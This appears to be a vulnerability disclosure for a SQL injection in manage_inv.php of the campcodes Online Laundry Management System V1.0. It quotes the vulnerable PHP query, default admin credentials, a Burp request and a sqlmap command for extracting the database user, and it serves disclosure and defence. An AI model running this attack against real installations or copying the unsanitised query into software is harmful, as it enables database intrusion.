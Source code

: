 ## Online Laundry Management System

## SQL Injection on `/manage_inv.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/manage_inv.php
```

The potential injection point is located in `manage_inv.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# /manage_inv.php
if(isset($_GET['id'])){
	$qry = $conn->query("SELECT * FROM inventory where id=".$_GET['id']);
	foreach($qry->fetch_assoc() as $k => $v){
		$$k = $v;
	}
}
```

### Proof of Concept:

**Burp Request:**

```
GET /manage_inv.php?id=3 HTTP/1.1
Host: 192.168.150.131
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Referer: http://192.168.150.131/index.php?page=inventory
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close


```

```
python3 sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot**

![image-20240510172951305](./screenshot/image-20240510172951305.png)

